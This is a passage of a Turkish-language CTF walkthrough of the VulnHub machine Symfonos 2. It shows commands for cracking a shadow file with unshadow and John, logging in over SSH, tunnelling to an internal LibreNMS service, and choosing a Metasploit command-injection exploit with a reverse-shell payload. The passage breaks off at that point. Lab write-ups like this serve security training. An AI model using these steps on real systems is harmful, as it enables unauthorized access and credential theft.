 Unshadow aracı ile elde edilen hesap bilgileri sözlük saldırısı için uygun formata getirilir.*(shadow.bak -> pass olarak kayıt edilmiştir.)*
```bash
unshadow passwd.bak pass > crack
```
John ile sözlük saldırısı yapılır. **aeolus** kullancısının hesap parolası elde edilir.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt crack 
```
{{< image src="/images/vulnhub/symfonos2/hydra.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 2. Erişim Sağlanması

Aeolus kullanıcısı bilgileri ile ssh bağlantısı yapılır.
```bash
ssh aeolus@192.168.56.115
```

{{< image src="/images/vulnhub/symfonos2/ssh.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 3. Yetki Yükseltme

LinEnum betiği ile sistem hakkında bilgi toplanır. Network bağlantıları dikkatli incelendiğinde 3306, 8080 ve 25 numaralı portlar localde çalışan uygulamalara ait açık portlardır. 25. portta Exim mail servisi, 3306 portta mysql servisi ve 8080 portunda Apache web servisi çalışmaktadır. 

Portlar dışarıya açık olmadığından portlara erişim **ssh tüneli** ile sağlanmalıdır. Bu kapsamda shh ile port yönlendirme yapılır. Kendi bilgisayarımızda 8080 portu ssh ile bağlanılılan makinada 8080 portuna yönlendirilmiştir.

{{< image src="/images/vulnhub/symfonos2/network.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

```bash
ssh  -L  8080:localhost:8080 aeolus@192.168.56.115
```
Bağlantıdan sonra tarayıcından *localhost:8080* adresine istek atılarak çalışan apache servisine bağlanılır. LibreNMS adında ağ izleme aracı çalışmaktadır. aeolus kullanıcısına ait bilgiler ile giriş yapılır.



{{< image src="/images/vulnhub/symfonos2/libre.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Metasploit aracı içerisinde yazılıma ait 2 adet exploit bulunmaktadır. 

```terminal
msf6 > search librenms

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/linux/http/librenms_addhost_cmd_inject   2018-12-16       excellent  No     LibreNMS addhost Command Injection
   1  exploit/linux/http/librenms_collectd_cmd_inject  2019-07-15       excellent  Yes    LibreNMS Collectd Command Injection

```
İlk sıradaki exploit seçilir. Ayarlara bakılır.
```terminal
msf6 > use 0
[*] Using configured payload cmd/unix/reverse
```